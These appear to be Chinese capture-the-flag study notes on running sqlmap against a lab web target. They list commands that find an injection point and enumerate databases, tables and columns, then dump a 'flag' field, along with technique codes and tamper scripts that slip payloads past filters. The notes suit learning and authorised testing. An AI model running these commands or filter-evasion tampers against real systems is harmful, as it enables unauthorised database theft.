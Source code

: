 ```yaml
---
tags:
  - CTF-WEB
categories:
  - CTF-WEB
date: 2020-02-02 16:45:00
cover: /img/post/12.jpg
---
```


---
### 一般流程
**1.检查注入点：**
sqlmap -u "http://192.168.0.182/" --data "word=1&number=5" --batch 
**2.爆所有数据库信息：**
sqlmap -u "http://192.168.0.182/" --data "word=1&number=5" --dbs --batch 
**3.爆当前数据库信息：**
sqlmap -u "http://192.168.0.182/" --data "word=1&number=5" --current-db --batch 
**4.指定库名列出所有表**
sqlmap -u "http://192.168.0.182/" --data "word=1&number=5" -D news --tables --batch 
'news' 为指定数据库名称
**5.指定库名表名列出所有字段**
sqlmap -u "http://192.168.0.182/" --data "word=1&number=5" -D news -T admin --column --batch 
'admin' 为指定表名称
**6.指定库名表名字段dump出指定字段**
sqlmap -u "http://192.168.0.182/" --data "word=1&number=5" -D news -T admin -C flag --dump --batch 


**说明**
-==D== 数据库名（database首字母）
-==T== 表名（table首字母）
-==C== 列名称（column首字母，可加多个参数，如-C "content,title,id"
--==data==="word=1&number=5"        数据字符串通过POST发送
--==batch==             永远不要要求用户输入，使用默认行为

--technique：
B: Boolean-based blind SQL injection（布尔型注入）
E: Error-based SQL injection（报错型注入）
U: UNION query SQL injection（可联合查询注入）
S: Stacked queries SQL injection（可多语句查询注入）
T: Time-based blind SQL injection（基于时间延迟注入）
==-v3 同时显示注入的payload。==

--tamper base64encode.py  让发送的数据先转换成base64
unmagicquotes.py 宽字节注入脚本
nonrecursivereplacement.py 双重语句替代预定义的sql关键字，往往需要更改下
randomcase.py  随机大小写
space2comment.py	将空格替换为/**/

